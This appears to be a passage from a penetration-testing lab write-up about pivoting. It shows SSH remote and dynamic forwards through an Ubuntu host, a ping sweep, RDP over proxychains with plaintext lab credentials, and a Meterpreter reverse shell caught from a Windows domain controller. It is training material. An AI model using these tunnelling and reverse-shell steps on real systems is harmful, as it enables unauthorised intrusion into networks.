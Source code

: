 **Step 2: Updated SSH Command**
```bash
# Modified remote forwarding command to use port 8001
ssh -R 172.16.5.129:8080:0.0.0.0:8001 ubuntu@10.129.202.64 -vN

# Verbose output confirmed success:
debug1: remote forward success for: listen 172.16.5.129:8080, connect 0.0.0.0:8001
```

### **Lab Execution Results**

**Network Discovery Verification:**
```bash
# From Ubuntu pivot - confirmed Windows target accessible
ubuntu@WEB01:~$ ping 172.16.5.19
64 bytes from 172.16.5.19: icmp_seq=1 ttl=128 time=0.043 ms

# Network scan confirmed single target
for i in {1..254}; do timeout 1 ping -c 1 172.16.5.$i &>/dev/null && echo "172.16.5.$i is up"; done
# Output: 172.16.5.19 is up
```

**Successful Connection Chain:**
1. ✅ **SSH Dynamic Forward:** `ssh -D 9050 ubuntu@10.129.202.64` 
2. ✅ **RDP via Proxychains:** `proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123`
3. ✅ **Payload Download:** Windows PowerShell as Administrator
4. ✅ **SSH Remote Forward:** Port 8080→8001 tunnel established
5. ✅ **Payload Execution:** `C:\backupScript.exe`

**Final Success Output:**
```bash
# Meterpreter session established
[*] https://0.0.0.0:8001 handling request from 127.0.0.1
[*] Meterpreter session 1 opened (127.0.0.1:8001 -> 127.0.0.1)

meterpreter > getuid
Server username: INLANEFREIGHT\victor

meterpreter > sysinfo
Computer        : DC01
OS              : Windows Server 2019 Build 17763
Architecture    : x64
System Language : en_US
Domain          : INLANEFREIGHT
Logged On Users : 2
Meterpreter     : x64/windows
```

### **Key Learning Points**

1. **Port Conflicts:** Always check for existing processes on target ports
2. **Flexible Port Usage:** Using alternative ports (8001) works seamlessly
3. **Process Management:** Kill old SSH tunnels before starting new ones
4. **Verification Steps:** Confirm each tunnel component before proceeding
5. **Documentation:** Real-time troubleshooting improves understanding
